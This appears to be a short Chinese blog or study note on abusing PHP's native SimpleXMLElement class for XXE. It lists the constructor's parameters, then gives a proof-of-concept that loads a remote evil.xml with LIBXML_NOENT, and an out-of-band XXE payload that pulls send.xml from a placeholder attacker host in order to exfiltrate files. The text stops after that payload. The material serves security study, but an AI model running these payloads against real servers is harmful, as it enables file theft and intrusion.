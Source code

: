 ```yaml
---
title: php 原生类利用
date: 2023-06-20 23:47:59
categories:
- PHP
toc: true
---
```



# 原生类利用

## XXE: SimpleXMLElement
```php
 class SimpleXMLElement implements Stringable, Countable, RecursiveIterator {
    /* Methods */
    public __construct(
        string $data,
        int $options = 0,
        bool $dataIsURL = false,
        string $namespaceOrPrefix = "",
        bool $isPrefix = false
    )
    public addAttribute(string $qualifiedName, string $value, ?string $namespace = null): void
    public addChild(string $qualifiedName, ?string $value = null, ?string $namespace = null): ?SimpleXMLElement
    public asXML(?string $filename = null): string|bool
    public attributes(?string $namespaceOrPrefix = null, bool $isPrefix = false): ?SimpleXMLElement
    public children(?string $namespaceOrPrefix = null, bool $isPrefix = false): ?SimpleXMLElement
    public count(): int
    public getDocNamespaces(bool $recursive = false, bool $fromRoot = true): array|false
    public getName(): string
    public getNamespaces(bool $recursive = false): array
    public registerXPathNamespace(string $prefix, string $namespace): bool
    public __toString(): string
    public xpath(string $expression): array|null|false
}
```
- data: xml 字符串，xml 文档路径或者 url 路径（如果 dataIsURL 为 true
- dataIsURL: 默认情况下为 false，为 true 时 data 为一个 url 路径
- option：设置为 LIBXML_NOENT 时，可能会导致 xxe 攻击，LIBXML_NOENT 为 2.

### 读取文件
poc:
```php
$x=new SimpleXMLElement("http://xxx.xxx.xxx.xxx/evil.xml",2,true);
```

evil.xml
```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % remote SYSTEM "http://xxx.xxx.xxx.xxx/send.xml">  
%remote;  
%all;  
%send;  
]>
```
